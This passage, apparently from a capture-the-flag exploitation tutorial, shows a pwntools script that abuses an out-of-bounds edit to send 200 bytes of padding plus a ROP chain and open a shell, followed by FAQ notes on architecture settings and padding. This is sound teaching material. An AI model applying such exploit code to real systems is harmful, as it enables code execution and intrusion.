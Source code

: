 
### Triggering the Exploit

```python
# Edit area 18 (out of bounds!)
r.sendlineafter(b'choice: ', b'3')
r.sendlineafter(b'edit', b'18')

# Fill in other fields (doesn't matter)
for _ in range(4):
    r.sendlineafter(b'): ', b'1')

# Fill in URL
r.sendlineafter(b'): ', b'http://pwned.com')

# Send our ROP chain in the TITLE field!
payload = b'A' * 200 + rop.chain()
r.sendlineafter(b'): ', payload)

# Exit to trigger the return
r.sendlineafter(b'choice: ', b'5')

# Now main() returns and jumps to our ROP chain!
r.interactive()  # We should have a shell!
```

---

## Common Confusions & FAQs

### Q1: What does `context.arch = "amd64"` do?

**A:** Tells pwntools what processor architecture we're targeting.

```python
context.arch = "amd64"  # 64-bit x86 (Intel/AMD)
```

**Effects:**
- `p64()` packs 8-byte addresses correctly
- ROP gadget searching targets correct architecture
- Shellcode generation (if needed) uses correct instructions

**Other options:**
- `context.arch = "i386"` - 32-bit x86
- `context.arch = "arm"` - ARM processors
- `context.arch = "mips"` - MIPS processors

---

### Q2: How do we know padding is 200 bytes?

**A:** Through calculation or testing!
